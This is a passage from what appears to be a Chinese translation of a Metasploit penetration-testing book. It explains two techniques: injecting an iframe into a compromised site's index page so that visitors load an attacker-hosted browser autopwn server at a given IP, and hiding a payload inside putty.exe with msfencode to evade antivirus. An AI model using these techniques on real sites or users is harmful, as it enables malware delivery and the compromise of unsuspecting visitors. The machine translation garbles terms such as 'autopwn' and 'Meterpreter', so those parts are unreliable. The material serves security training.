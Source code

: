 易受攻击的网站可以提供与浏览器自动 wn 服务器相同的功能。因此，Metasploit 的浏览器自动 wn 模块将自动以网站的浏览者为目标。

我们可以通过向网站的常规网页中注入一个简单的脚本来实现这一点。因此，每当访问者访问注入的页面时，他或她的浏览器都会由自动关闭漏洞服务器处理。

我们可以使用**Iframe 注入**来实现这一点。让我们快速看一个演示，证明我们提出的观点的有效性。

## 黑客攻击网站用户

让我们通过下面的图表来了解我们是如何对网站用户进行黑客攻击的：

![Hacking the users of a website](graphics/2223OS_07_32.jpg)

现在让我们来看看如何做。要使此攻击正常工作最重要的是访问目标网站以及编辑和更改的权限，如以下屏幕截图所示：

![Hacking the users of a website](graphics/2223OS_07_33.jpg)

我们有一个示例网站，上面有一个上传的基于 PHP 的第三方 shell。我们需要在`index`页面中添加以下行：

```
<iframe src="http://192.168.75.138:8080"></iframe>
```

每当网站用户正常访问该网站时，前一行代码将加载恶意浏览器 AutoWn。由于此代码位于`iframe`标记中，它将自动包含来自攻击者系统的浏览器自动关闭。我们需要保存此文件，并允许访问者查看网站和正常浏览。

一旦受害者浏览此网站，浏览器自动关闭将自动对访问者运行。但是，请确保浏览器自动 wn 模块正在运行。如果没有，可以使用以下命令运行相同的命令：

![Hacking the users of a website](graphics/2223OS_07_34.jpg)

如果一切顺利，我们将能够让 MeterMeter 在目标系统上运行。整个想法是利用目标网站来吸引最大限度的受害者，并获得对他们系统的访问权。这种方法在进行白盒测试时非常方便，因为白盒测试的目标是内部 web 服务器的用户。

# 绕过 AV 检测

只有当我们能够绕过目标系统上运行的防火墙和抗病毒等安全措施时，前面讨论的所有方法才会起作用。

然而，我们在 Metasploit 中有内置的工具，它可以绕过安全软件的检测或降低检测率。

在 Metasploit 中，我们可以使用两种不同的方法来避免防病毒检测。让我们集中讨论这些方法是什么，以及如何使用它们绕过检测并在短时间内完成工作。

## msfencode

`msfencode`工具提供了以不同格式编码有效负载的功能，这可能会规避检测机制。它有一个跳过坏字符的清晰过程，并且可以将有效负载编码到外观正常的可执行文件中，这可能不会引起受害者的注意。最好的部分是，它保持了模板的功能完整，这是一个非恶意文件。让我们看看作为该工具一部分的各种选项：

![msfencode](graphics/2223OS_07_35.jpg)

`msfencode`命令提供了各种开关，可用于生成各种外壳代码/有效载荷。现在，让我们用`msfencode`从后门打开一个外观正常的可执行文件，并测试其工作情况：

![msfencode](graphics/2223OS_07_36.jpg)

前面的命令将使用模板并在其中隐藏我们的后门文件，这是我们的非恶意`putty.exe`程序文件。

在前面的语句中，我们使用`putty.exe`并将有效负载注入其中。我们使用`msfpayload`创建有效负载，并将该有效负载嵌入`putty.exe`文件中，并使用`shikata_ga_nai`编码器进行五次迭代编码。但是，使用编码器将对文件进行编码并修改其签名，这有助于绕过使用。我们使用`–t`开关来表示后门文件的类型，即`exe`。`-x`开关表示生成构建的`exe`模板，这是我们的非恶意文件`putty.exe`。`-o`开关表示输出可执行文件的名称。`-c`开关表示编码的迭代次数。`-k`开关用于保持非恶意文件的优雅和工作状态，因为非工作文件可能会引起受害者的注意。
